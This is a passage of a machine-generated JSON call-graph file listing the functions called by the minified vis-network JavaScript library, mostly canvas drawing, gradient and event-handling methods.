"EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "listeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getterFor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "this"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getterFor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getOwnPropertyNames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getterFor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "supports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "preventSrc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "recognize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "recognizeWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "requireFailure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "tryEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "failTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "failTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hasRequireFailures"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "tryEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "attrTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "directionTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "tryEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "recognizeWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "requireFailure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "preventDefaults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "canRecognizeWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "recognize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "initEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 